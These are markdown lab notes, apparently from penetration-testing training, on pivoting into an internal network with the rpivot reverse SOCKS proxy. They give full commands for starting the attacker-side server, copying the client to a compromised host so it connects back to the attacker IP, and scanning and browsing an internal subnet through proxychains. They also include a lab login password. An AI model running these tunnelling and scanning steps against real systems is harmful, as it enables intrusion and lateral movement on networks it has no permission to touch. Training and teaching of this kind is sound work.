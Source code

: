 # Rpivot

Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. 

![rpivot.png](rpivot.png)

1) Installing Python2.7 & Cloning rpivot
sudo apt-get install python2.7
sudo git clone https://github.com/klsecservices/rpivot.git

2) Running server.py from the Attack Host
python2.7 rpivot/server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

3) Transfering rpivot to the Target
scp -r rpivot ubuntu@$TARGET:/home/ubuntu/

4) Running client.py from Pivot Target
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

5) Confirming Connection is Established
New connection from host 10.129.202.64, source port 35226

6) Browsing to the Target Webserver using Proxychains
proxychains firefox-esr 172.16.5.135:80

7) Connecting to a Web Server using HTTP-Proxy & NTLM Auth
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>

## LAB
sudo apt-get install python2.7
sudo git clone https://github.com/klsecservices/rpivot.git
python2.7 rpivot/server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
scp -r rpivot ubuntu@$TARGET:/home/ubuntu/
ssh ubuntu:@$TARGET
HTB_@cademy_stdnt!
python2.7 rpivot/client.py --server-ip 10.10.14.204 --server-port 9999
tail -4 /etc/proxychains.conf
socks4 	127.0.0.1 9050
proxychains nmap -v -sn -p80 172.16.5.1-200
proxychains firefox-esr 172.16.5.135:80
